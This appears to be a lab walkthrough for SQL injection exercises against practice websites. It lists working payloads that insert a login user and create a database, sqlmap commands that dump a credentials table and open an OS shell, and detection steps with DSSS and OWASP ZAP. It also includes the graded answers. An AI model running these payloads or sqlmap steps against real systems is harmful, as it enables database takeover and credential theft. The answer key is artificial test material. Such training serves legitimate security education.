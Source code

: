# Tasks

## Perform SQL Injection Attacks

### SQL Injection Attack On MSSQL Database

Use an SQL injection query to perform SQL injection attacks on the website www.goodshopping.com. Create a new user in the database with the credentials Martin/qwerty123. Enter the SQL injection query to create the above user in the MSSQL database. (Note: After clicking on the submit button, reload the page and open the same session to check if the answer is correct or not.)

```
blah';insert into login values('Martin', 'qwerty123');--
```

Create a new database in the MSSQL database with the name MySQLDatabase by using an SQL injection query. Enter the SQL injection query to create the above database. (Note: After clicking on the submit button, reload the page and open the same session to check if the answer is correct or not.)

```
blah';create database MySQLDatabase; ---
```



### Extract MSSQL Databses using sqlmap

Use the sqlmap tool to perform an SQL injection attack on the website www.moviescope.com to extract databases from the MSSQL database. Attempt to retrieve the table content of the column User\_Login. Enter the password for the username steve.

password



#### Retrieve the website cookie

{% hint style="info" %}
Right click on the webpage\
\
In the Developer Tools click on Console\
\
Type: document.cookie\
\
Copy the cookie value
{% endhint %}

#### Get the Databases

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" --dbs

Y

Y

Y
```

#### Get Database Tables

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope --tables
```

#### Dump Table data

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope -T User_Login --dump
```

#### Get OS Shell

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" --os-shell

Y

hostname

Y
```



## Detect SQL Injection Vulnerabilities

### Detect SQL Injection Vulnerabilities using DSSS

Use the DSSS tool to detect SQL injection vulnerabilities in a web application (www.moviescope.com). Which type of SQL injection attacks is the website www.moviescope.com vulnerable to?

Blind SQL Injection

```
python3 dsss.py
```

```
python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" 
```

{% hint style="info" %}
Copy the vulnerable URL and open in the browser
{% endhint %}



### Detect SQL Injection Vulnerability using OWASP ZAP

Use OWASP ZAP to test a web application (www.moviescope.com) for SQL injection vulnerabilities. Enter the CWE ID of the SQL injection vulnerability found in [www.moviescope.com](http://www.moviescope.com).

89



Use OWASP ZAP to test a web application (www.moviescope.com) for SQL injection vulnerabilities. Enter the WASC ID of the SQL injection vulnerability found in [www.moviescope.com](http://www.moviescope.com).

19

